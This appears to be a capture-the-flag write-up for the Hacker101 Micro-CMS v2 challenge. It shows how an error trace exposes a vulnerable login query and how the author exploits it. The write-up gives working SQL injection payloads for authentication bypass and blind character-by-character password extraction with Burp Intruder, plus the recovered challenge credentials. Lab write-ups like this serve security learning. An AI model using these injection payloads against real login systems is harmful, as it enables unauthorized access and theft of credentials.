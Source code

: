 # Micro-CMS v2

The Changelog shows the security fixes in v2
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/1.png" alt="1" />
</p>

As said, editing pages require an admin login
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/2.png" alt="1" />
</p>

### SQLi vulnerability

By putting a **'** in the login fields an error shows up
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

We find that
- The backend db is MariaDB, a MySQL like
- MariaDB is connected to python2.7 in file main.py with do_login( )
- The query is the following
```python
'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')
```

A simple auth bypass results in an **Invalid password**
```
username = ' or 1=1#
password = t
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/3.png" alt="1" />
</p>

Otherwise in an **Unknown user**
```
username = ' or 1=2#
password
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/4.png" alt="1" />
</p>

The code evaluates True or False since the [execute](https://dev.mysql.com/doc/connector-python/en/connector-python-api-mysqlcursor-execute.html) method returns a Boolean value

We can bypass the auth as
```
username = ' union select 'ab' as password#
password = ab
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/5.png" alt="1" />
</p>

but the comment suggests to find a real username/password combination to get the flag

### Blind SQLi

We got no output but we can modify the query itself!

The [LIKE](https://duckduckgo.com/?t=ffab&q=like+sql+w3school&ia=') operator allows to match a pattern for the valid password

We can get **fist** and **last** character as
```
username = ' or password LIKE "x%"#
username = ' or password LIKE "%x"#
```
Where
- **%** matches zero, one or more characters
- **x** will be a char payload in Burp's Intruder

Following [python formatting](https://pyformat.info/) the query will match **x** if password contains it

Since **%** is filtered, it will be replaced with **%%** by the **replace('%', '%%')**

We find **e** as last character and **s** as first


We can get password **length** as
```
username = ' or length(password) "%y"#
```
Where
- **y** will be an int payload in Burp's Intruder

We find **9** as length filtering the results for **Invalid password**

Then the final query will be
```
username='or password like 's§_§§_§§_§§_§§_§§_§§_§e'#&password=a
```
Where
- **s** is the first character
- **_** matches one character
- **e** is the last character

We find password **stephanie**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/6.png" alt="1" />
</p>


At the same way find the corresponding username with
```
username='or password='stephanie' and length(username)= §y§#&password=a
username='or password='stephanie' and username like '§_§§_§§_§§_§§_§§_§''#&password=a
```
We find username **pearly**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/Hacker101/Micro-CMSv2/src/7.png" alt="1" />
</p>

By logging with **pearly:stephanie** we get the flag!
